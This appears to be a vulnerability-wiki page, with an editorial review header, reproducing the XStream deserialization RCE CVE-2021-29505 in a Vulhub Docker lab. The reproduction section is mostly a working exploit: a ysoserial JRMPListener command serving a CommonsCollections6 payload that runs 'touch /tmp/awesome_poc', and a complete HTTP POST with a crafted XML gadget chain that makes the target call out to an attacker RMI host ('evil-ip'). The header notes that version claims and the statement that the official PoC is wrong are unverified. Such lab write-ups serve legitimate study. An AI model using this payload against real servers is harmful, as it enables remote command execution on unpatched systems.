



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;=1.4.16，实验1.4.16；须JRMP可达、CommonsCollections6链及兼容JDK类存在

代码与实验材料：完整XML和JRMPListener步骤，有容器文件证据；未运行

来源证据范围：官方CVE、Seebug、ysoserial仓库

- **适用与权限边界（1）**：二次gadget和运行条件不全；依据：CommonsCollections6返回链需类路径/JDK兼容，正文只列XStream版本。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **事实待核（2）**：官网PoC错误结论缺差异证据；依据：末尾直接说官方POC错，未固定当时版本或说明改动和原因。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **事实待核（3）**：缺修复版本及恢复；依据：没有官方固定版阈值；touch文件与固定Content-Length需规范。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# XStream 反序列化命令执行漏洞 CVE-2021-29505

## 漏洞描述

XStream 是一个轻量级、简单易用的开源 Java 类库，它主要用于将对象序列化成 XML（JSON）或反序列化为对象。

XStream 在解析 XML 文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.16 及之前版本黑名单存在缺陷，攻击者可利用 `sun.rmi.registry.RegistryImpl_Stub` 构造 RMI 请求，进而执行任意命令。

参考链接：

- https://x-stream.github.io/CVE-2021-29505.html
- https://paper.seebug.org/1543/

## 环境搭建

Vulhub 执行如下命令启动一个 Springboot + XStream 1.4.16 的环境：

```
docker-compose up -d
```

环境启动后，我们向 `http://your-ip:8080` 发送一个正常的 XML 数据包，将会得到预期返回：




## 漏洞复现

作为攻击者，我们在自己的服务器上使用 [ysoserial](https://github.com/frohoff/ysoserial) 的 JRMPListener 启动一个恶意的 RMI Registry：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/awesome_poc"
```

这个 RMI Registry 在收到请求后，会返回用 CommonsCollections6 利用链构造的恶意序列化对象。

然后，我们向目标服务器发送 CVE-2021-29505 的 XML POC：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>evil-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>evil-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

其中，evil-ip 是恶意 RMI 服务器的地址。恶意 RMI 服务器收到 RMI 请求：




进入目标容器内，可见 `touch /tmp/awesome_poc` 已成功执行：




值得注意的是，我们没有直接使用 [官网](https://x-stream.github.io/CVE-2021-29505.html) 给出的 POC，那个 POC 是错的。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
